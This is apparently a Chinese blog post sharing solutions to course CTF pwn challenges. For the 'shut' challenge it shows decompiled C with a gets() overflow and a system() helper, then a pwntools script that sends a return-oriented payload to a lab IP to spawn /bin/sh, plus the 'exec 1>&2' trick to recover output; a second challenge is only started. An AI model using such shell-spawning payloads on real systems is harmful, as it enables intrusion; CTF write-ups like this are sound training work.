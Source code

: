 ```yaml
---
title: 竞赛课结课分享
description: AK了比赛分享经验！
pubDatetime: 2023-05-22
published: true
ogImage: ../../assets/2.png
language: cn
tags:
  - 网络安全
---
```

# 第一题：shut
## 分析代码
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    __int64 v4; // [rsp+8h] [rbp-8h] BYREF

    v4 = 0LL;
    puts(" *------Ab1azE easy pwn------* \n");
    puts("enjoy yourself in the course of the hacking :)");
    gets(&v4, argv);
    close(1);
    return 0;
}
```
这里发现也存在system函数
```c
__int64 __fastcall func(const char *a1)  //如果这里是/bin/sh就好了啊
{
  system(a1);
  return 0LL;
}
```
然后尼，我们还发现里面存在/bin/sh<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1684423094135-acbe3233-744c-4e42-92b5-40d9eebf9e8c.png#averageHue=%23363533&clientId=ueaff3f70-7084-4&from=paste&height=444&id=ud9213d5c&originHeight=733&originWidth=1444&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=174340&status=done&style=none&taskId=u726c8199-005d-4178-a4ca-d5c0c6858b3&title=&width=875.1514645691227)
## 来看exp
```c
from pwn import *
p = remote("172.22.107.127",49221)
offset =0x10
payload = b'A' * offset + p64(0x400803) + p64(0x601050) +  p64(0x40073F)
p.sendline(payload)
p.interactive()
```
## 坑点所在
关闭了标准输出1<br />那么我们可以重新定位（标准输入0，标准错误输出2）<br />exec 1>&2
# 第四题：twine
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1684423459606-7e109e04-841f-443f-87d4-316aea66ad04.png#averageHue=%23312d2b&clientId=uc480b705-b444-4&from=paste&height=191&id=u352f8326&originHeight=315&originWidth=1053&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=68891&status=done&style=none&taskId=u1654fe99-64ef-408e-b39a-486917499eb&title=&width=638.1817812959046)
> 关注重点：没有PIE
